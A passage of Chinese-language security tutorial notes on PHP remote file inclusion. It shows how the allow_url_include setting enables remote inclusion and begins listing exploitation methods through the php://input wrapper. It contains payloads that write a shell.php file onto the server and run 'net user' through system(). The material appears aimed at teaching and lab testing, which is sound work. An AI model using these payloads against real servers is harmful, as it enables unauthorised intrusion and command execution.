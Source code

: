 ###### 当allow_url_include= on ，就容易出现RIF

##### 测试

###### php.ini中 allow_url_include默认是off

![image-20200302122017814](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302122017814.png)

###### 这个时候去包含我服务器上的文件，显示拒绝访问

![image-20200302122050889](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302122050889.png)

###### 将allow_url_include=On,可以正常访问

![image-20200302122140587](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302122140587.png)

![image-20200302122325588](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302122325588.png)



### 0x06 利用方法

----------

#### 一、php伪协议

##### 1. php://input

###### 利用条件

```
1. allow_url_include= On
2. allow_url_fopen 不作要求
```



###### 写入一句话

![image-20200302165747108](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302165747108.png)

###### 新建文件，并输入语句

```php
<?php fputs(fopen("shell.php","w"),"<?php phpinfo();?>") ?>
```

fputs(file,string) 写入文件，将string中的字符串写入指定的file中

fopen(filename,mode)打开文件或者url，如果没有则创建



![image-20200302171514229](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200302171514229.png)

###### 执行系统命令

```php
<?php system('net user');?>
```
